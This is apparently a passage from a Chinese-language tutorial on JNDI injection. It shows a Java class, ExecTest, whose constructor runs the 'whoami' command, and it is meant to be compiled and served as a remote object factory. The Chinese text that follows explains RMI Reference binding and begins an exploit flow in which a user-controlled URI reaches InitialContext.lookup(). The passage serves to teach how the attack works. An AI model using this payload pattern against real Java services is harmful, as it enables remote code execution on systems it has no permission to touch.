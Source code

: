 ```java
#编译后为ExecTest.class
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.Reader;
import javax.print.attribute.standard.PrinterMessageFromOperator;
public class ExecTest {
    public ExecTest() throws IOException,InterruptedException{
        String cmd="whoami";
        final Process process = Runtime.getRuntime().exec(cmd);
        printMessage(process.getInputStream());;
        printMessage(process.getErrorStream());
        int value=process.waitFor();
        System.out.println(value);
    }

    private static void printMessage(final InputStream input) {
        // TODO Auto-generated method stub
        new Thread (new Runnable() {
            @Override
            public void run() {
                // TODO Auto-generated method stub
                Reader reader =new InputStreamReader(input);
                BufferedReader bf = new BufferedReader(reader);
                String line = null;
                try {
                    while ((line=bf.readLine())!=null)
                    {
                        System.out.println(line);
                    }
                }catch (IOException  e){
                    e.printStackTrace();
                }
            }
        }).start();
    }
}
```





**下面使用RMI服务作为示例**:

在RMI服务中，除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象（当前名称目录系统之外的对象）。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引用，并且在目录中保存。当客户端在lookup()查找这个远程对象时，客户端会获取相应的object factory，最终通过factory类将reference转换为具体的对象实例。 

整个利用流程如下： 



1. 目标代码中调用了InitialContext.lookup(URI)，且URI为用户可控； 
